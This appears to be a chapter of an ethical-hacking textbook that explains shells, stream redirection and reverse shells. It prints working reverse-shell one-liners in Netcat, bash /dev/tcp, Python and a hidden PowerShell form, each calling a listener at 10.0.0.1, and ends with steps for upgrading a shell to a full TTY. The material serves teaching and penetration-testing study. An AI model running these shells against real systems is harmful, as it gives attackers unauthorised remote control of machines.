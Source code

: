 # Shells

Although there are graphical user interface \(GUI\) based applications that perform a large number of the functions involved in ethical hacking, you will end up spending a great deal of time typing commands at a command line prompt in a “shell”. The shell itself is a program that accepts commands to interact with the operating system of the computer and other programs. There are a variety of shells with the two most common shells on Linux being the Bourne shell or “sh” and the Bourne again shell “bash”. On Apple’s macOS the default shell now in the terminal program is the “zsh”. On Windows, there are a variety of command-line programs. There is the original command program “cmd.exe”, “powershell.exe” which is the PowerShell interpreter and the Linux Terminal which interfaces with the Windows Subsystem for Linux \(WSL\). Microsoft has also released an Open Source Windows Terminal.

An important consideration for our purposes is the way shells handle input, output and errors. All programs communicate over the communication channels, referred to as the standard streams stdin \(standard in\), stdout \(standard out\) and stderr \(standard error\). As with all things on Linux, these streams are treated as files and have a number that identifies them, the file descriptor. In the case of the standard streams, the file descriptors \(fd\) are:

```text
stdin  0
stdout 1
stderr 2
```

Theses streams can be redirected by using the “&gt;” notation. For example, to redirect output and error messages to a single file, you can use the command:

`ls 2>&1 output.txt`

Likewise, stdin can be redirected by using the “&lt;” redirection symbol. A trivial example is using “cat” to display the contents of a file hello.txt which contains “hello”

```bash
┌─[✗]─[rin@parrot]─[~/]
└──╼ $cat < hello.txt
hello
```

Other than being a convenience, the ability to redirect the standard streams becomes important when trying to run a shell on a remote machine, something that is often the key of gaining control over a machine. Since the standard streams can be redirected, they can be redirected over network sockets that transport the data over a network. The idea is depicted in the following diagram:

![Principles of a remote shell redirecting stdin, stdout and stderror over a network socket](../.gitbook/assets/0%20%282%29.png)

This entire process is made simpler through the use of a program called Netcat that can handle the IO redirection for a program over a network. In what is called a “reverse shell”, you start a Netcat session on a local machine to listen for incoming connections:

`nc -lvnp 6001`

This tells netcat to listen \(-l\) on port \(-p\) 6001 \(any number port that is not being used\) on all IP addresses for incoming connections \(-v is for verbose output, -n is for no DNS\). On the target machine, you can run:

`nc <listen machine IP> 6001 -e /bin/bash`

This will execute bash and send all IO to the listening machine.

An alternative to reverse shells are “bind shells”. In this case the process listens on the attacking machine and the attacker initiates the connection from the attacking machine. The commands are the same but reversed.

Netcat is one tool to create a reverse shell. There are numerous other ways of achieving the same result of handling the standard streams. Another common and useful way of sending a reverse shell is by using built in networking functions of bash.

`bash -i >& /dev/tcp/10.0.0.1/6001 0>&1`

Although this looks complicated, it is running a bash shell in interactive mode \(-i\) and redirecting stdout and stderr \(&gt;&\) to a socket that will connect to the address and port specified \(/dev/tcp/10.0.0.1/6001\). The final redirection command \(0&gt;&1\) redirects stdin to the same file as stdout i.e. the socket.

At the other end, you can still use Netcat in listening mode to handle the incoming connection.

There are a range of ways of running reverse shells in different languages listed on sites like PayloadsAllTheThings[\[1\]](). An example of a reverse shell written in Python is

```bash
python3 -c 'import socket,subprocess, os; s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",6001));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'
```

Expanded, the code looks like this:

```python
import socket,subprocess, os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.0.0.1",6001))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(["/bin/bash","-i"])
```

The code essentially replicates the process of making the bash socket connection you saw earlier. It creates a socket u and connects to the listener v. It redirects the stdin, stdout and stderror to the socket w and then makes then runs the bash command x. It then gets all of the standard streams using the socket and finally starts an interactive shell.

The code essentially replicates the process you saw above with the bash socket connection. It creates a socket and connects to the listener. It then gets all of the standard streams using the socket and finally starts an interactive shell.

## Reverse shells on Windows

The principles of reverse shells work with Windows as well but you don’t have the ease of having bash readily available. There are Windows' versions of Netcat and so it is possible to do a reverse shell by simply specifying cmd.exe or powershell.exe as the command to execute when using it. It is also possible, as in the Python example above, to run a reverse shell written in PowerShell as follows:

```bash
powershell -NoP -NonI -W Hidden -Exec Bypass -Command New-Object System.Net.Sockets.TCPClient("10.0.0.1",6001);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()

```

  
When the code passed to powershell.exe's command argument \(-Command\) is expanded, it looks like this:

```python
New-Object System.Net.Sockets.TCPClient("10.0.0.1",6001)
$stream = $client.GetStream()
[byte[]]$bytes = [byte[]]::new(65536)
while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){
  $data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i)
  $sendback = (iex $data 2>&1 | Out-String )
  $sendback2  = $sendback + "PS " + (pwd).Path + "> "
  $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2)
  $stream.Write($sendbyte,0,$sendbyte.Length);
  $stream.Flush()
}
$client.Close()
```

The script creates a socket to communicate with the attacker's listener u, creates a buffer to read v  from that socket which will be commands sent by the attacker w, executes the commands sent by the attacker x and gets the response and then writes the response back to the attacker y.

As with all things Windows, this is slightly more complicated than the Linux versions but functional, nonetheless. Another alternative is to use a “Meterpreter” shell that is designed to work with the pentesting framework Metasploit which you will discuss shortly.

## Upgrading Remote Shells

The shells obtained by the methods outlined sometimes are less than functional because they do not result in a full ‘TTY’ terminal. TTY stands for teletype and is derived from the early electromagnetic typewriters that were used in telegraphy and then to communicate with mainframes and minicomputers. When you open a terminal on a Mac or on Linux, the terminal software is running a pseudo teletype \(PTY\) which handles getting input from the keyboard and passing it to a TTY driver which eventually passes that data to which ever shell program you are running. The terminal handles things like arrow keys and key sequences like "control + w" which will erase a word, "control + c" which will kill the last command you ran. If you are not running a proper TTY, you won't be able to use arrow keys and "CTL+c" will kill the shell you are running and not the last command. Also using an editor like vi will be difficult.

Shells can be upgraded by using the pty library in python:

```bash
python3 -c ‘import pty;pty.spawn(“/bin/bash”);’
```

Then typing CTL+z to background the process and typing

```bash
stty raw -echo
fg
hit enter key
hit enter key
reset
export SHELL=bash
export TERM=xterm-256color
stty rows <num> columns <cols>
```



